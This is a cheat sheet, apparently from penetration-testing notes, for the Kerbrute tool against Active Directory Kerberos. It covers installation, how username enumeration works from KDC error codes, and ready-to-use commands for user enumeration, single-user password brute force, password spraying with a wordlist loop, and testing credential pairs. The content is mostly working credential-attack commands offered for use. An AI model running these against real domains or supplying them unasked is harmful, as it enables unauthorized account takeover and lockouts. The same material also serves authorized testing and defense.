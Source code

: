### Installation

### Go installation
```
go install github.com/ropnop/kerbrute@latest
GOPATH=$(go env | grep 'GOPATH' | awk -F"'" '{print $2}')
export PATH=$PATH:$GOPATH/bin
```

### Pre-compiled binaries
Download the pre-compiled binaries based on your OS :
```
https://github.com/ropnop/kerbrute/releases
```

### Kerberos

#### Users enumeration
When you attempt to authenticate as a user with Kerberos pre-auth enabled:
- If the username does not exist, the KDC replies with an error like `KDC_ERR_C_PRINCIPAL_UNKNOWN`.
- If the username does exist, but the password is wrong, the KDC replies with a `KDC_ERR_PREAUTH_FAILED` error message.
Based on the error message, Kerbrute can determine whether a user exists or not.

```
kerbrute userenum --dc 10.10.10.10  -d <domain> '<users.txt>'
```
>  `<users.txt>` is a file that contain a list of usernames

#### Brute force a single user's password using a wordlist
```
kerbrute bruteuser --dc 10.10.10.10 -d <domain> '<passwords.txt>' '<user>'
```

#### Password spraying

```
kerbrute passwordspray --dc 10.10.10.10 -d <domain> '<user.txt>' <password>
```
Use the following one-liner to perform a password spraying attack using a list of passwords:  
```
for pass in $(cat passwords.txt); do kerbrute passwordspray --dc <dc_ip_fqdn> -d '<domain>' '<users.txt>' $pass -o kerbrute_$RANDOM; done
```
> The command above will save the output in random filenames that are prefixed by `kerbrute_XXXX`
Once the attack done, you can use `grep 'VALID LOGIN' kerbrute_*` to search for valid credentials

#### Read username:password combos from a file or stdin and test them

```
cat <userpass.txt> | kerbrute bruteforce --dc 10.10.10.10 -d <domain> -
```
>  `<userpass.txt>` is a file that contains a list of username and password pairs, one per line, in the format `<user>:<password>`
